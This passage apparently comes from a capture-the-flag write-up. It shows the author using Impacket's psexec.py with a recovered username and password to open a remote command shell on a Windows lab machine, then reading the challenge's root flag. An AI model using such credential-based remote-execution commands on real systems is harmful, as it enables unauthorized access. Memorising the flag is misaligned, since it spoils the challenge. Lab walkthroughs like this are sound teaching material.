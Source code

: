 We can now use `psexec.py` and login with this credentials:

```
python3 psexec.py WORKGROUP/mayor:8CL7O1N78MdrCIsV@IP cmd.exe
```


![Pasted image 20250530174926.png](../../IMAGES/Pasted%20image%2020250530174926.png)

There we go, let's read `root` flag:

![Pasted image 20250530175035.png](../../IMAGES/Pasted%20image%2020250530175035.png)

```
C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```



![Pasted image 20250530175102.png](../../IMAGES/Pasted%20image%2020250530175102.png)

